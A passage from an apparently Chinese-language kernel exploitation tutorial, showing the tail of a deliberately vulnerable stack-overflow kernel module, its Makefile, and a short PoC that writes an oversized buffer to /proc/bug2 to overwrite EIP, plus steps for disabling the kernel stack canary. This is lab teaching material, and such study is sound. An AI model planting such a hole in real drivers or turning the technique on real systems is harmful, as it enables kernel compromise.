 ```
    return 0;
}
static void __exit stack_smashing_exit(void)
{
    printk(KERN_ALERT "stack_smashing driver exit!n");
}
module_init(stack_smashing_init);
module_exit(stack_smashing_exit);
obj-m := stack_smashing.o  
KERNELDR := ~/linux_kernel/linux-2.6.32.1/linux-2.6.32.1/
PWD := $(shell pwd)  
modules:  
        $(MAKE) -C $(KERNELDR) M=$(PWD) modules  
moduels_install:  
        $(MAKE) -C $(KERNELDR) M=$(PWD) modules_install  
clean:  
        rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions
```

**3. PoC**

poc代码如下：



```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
int main(){
    char buf[24] = {0};
    memset(buf,"A",24);
    *((void**)(buf + 20)) = 0x42424242;
    int fd = open("/proc/bug2",O_WRONLY);
    write(fd,buf,sizeof(buf));
}
```

可以看到payload结构很简单，直接就是buffer+eip的结构。按照第一篇文章中的步骤，编译poc，然后构建文件系统，qemu起内核后，运行poc。

[![](./img/85840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t011004cbc731d148c4.png)

这里就有个问题，我们编译的kernel默认开启canary的，如果直接这么去运行poc，会直接kernel panic，无法利用，所以我们需要关闭canary选项，重新编译一个内核。

编辑.config文件，注释掉CONFIG_CC_STACKPROTECTOR这一行，然后重新编译内核。

[![](./img/85840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01b8d3c9ead00a8b4a.png)

注释掉之后，重新编译内核，再起内核，跑我们的PoC。

[![](./img/85840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01cb9e718aea486dfe.png)

这个时候发现，eip被覆盖成了0x42424242 。

**1 调试注意事项**

模块在编译后按照上篇文章的方法，丢进busybox，然后qemu起内核然后调试。
